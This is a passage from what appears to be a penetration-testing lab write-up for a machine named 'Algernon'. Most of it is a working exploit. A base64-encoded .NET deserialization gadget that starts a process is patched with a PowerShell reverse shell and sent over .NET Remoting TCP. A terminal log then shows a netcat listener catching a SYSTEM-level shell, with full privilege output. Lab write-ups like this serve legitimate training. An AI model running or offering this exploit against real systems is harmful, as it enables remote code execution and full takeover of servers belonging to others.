WFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFgGBwAAAANjbWQEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYMAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDQAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg4AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDwAAAAVTdGFydAkQAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ8AAAAJDQAAAAkOAAAABhQAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFQAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQoAAAAJAAAABhYAAAAHQ29tcGFyZQkMAAAABhgAAAANU3lzdGVtLlN0cmluZwYZAAAAK0ludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGGgAAADJTeXN0ZW0uSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKARAAAAAIAAAABhsAAABxU3lzdGVtLkNvbXBhcmlzb25gMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JDAAAAAoJDAAAAAkYAAAACRYAAAAKCw=='
payload = base64.b64decode(payload)
payload = payload.replace(bytes("X"*1360, 'utf-8'), psh_shell)
uri = bytes('tcp://{}:{}/Servers'.format(HOST, str(PORT)), 'utf-8')
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST,PORT)) 
msg = bytes()
msg += b'.NET'                 # Header
msg += b'\x01'                 # Version Major
msg += b'\x00'                 # Version Minor
msg += b'\x00\x00'             # Operation Type
msg += b'\x00\x00'             # Content Distribution
msg += pack('I', len(payload)) # Data Length
msg += b'\x04\x00'             # URI Header
msg += b'\x01'                 # Data Type
msg += b'\x01'                 # Encoding - UTF8
msg += pack('I', len(uri))     # URI Length
msg += uri                     # URI
msg += b'\x00\x00'             # Terminating Header
msg += payload                 # Data
s.send(msg)
s.close()
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Algernon]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.219] from (UNKNOWN) [192.168.187.65] 49763

PS C:\Windows\system32> whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

PS C:\Windows\system32> 
```